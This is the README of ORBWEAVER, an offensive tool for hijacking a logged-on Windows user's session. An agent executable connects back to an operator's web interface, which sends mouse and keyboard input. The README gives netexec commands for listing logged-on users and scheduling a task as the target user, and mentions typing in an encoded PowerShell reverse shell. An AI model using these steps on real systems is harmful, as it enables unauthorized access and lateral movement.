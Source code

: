 # ORBWEAVER
ORBWEAVER is my attempt at creating a resonably portable custom remote desktop application. The applicaiton is meant to be self contained and be used as a standalone binary to be run inside of user sessions. This is intended to be a proxy for RDP so that an active users session can be stolen to access otherwise unaccessable resources. The reason for choosing this approach is versatility and simplicity. Yes, you could steal the various tokens from browsers and applications - this would be more stealthy. But good luck reversing these on an app by app basis. 

The current way im running this is by using netexec schedueling a task as the target user. Below is a demo of the applicaiton in action. For more info on the development and usage see my blog post: https://medium.com/p/259e11caf663

![Alt text](./public/orbweaver_demo.gif "ORBWEAVER demo")

## Main Features
- Web interface for operators to control mouse movements, clicks, and keyboard inputs
- Supports upper and lowercase letters and special chars - enough to launch an encoded PowerShell rev. shell
- Simple agent to be run as .exe

# Usage
Getting it to run via netexec/cme
```
# Enumerate loggedon users
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
# Execute command
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```
Agent usage:
```
ORBWEAVER agent v0.1 - by Mark Steenberg (0x0vid)

usage: agent.exe [ip]:[port]

example: agent.exe 127.0.0.1:5000
```


# TODO
- create install instructions
- create compile instructions
- do field testing
## Agent
- Provide commandline options for where to connect to
- Clean up code base
- Add option to use authentication token

## Server
- Add security: checking fo files that are uploaded, login, and auth requirements for interfaces and APIs


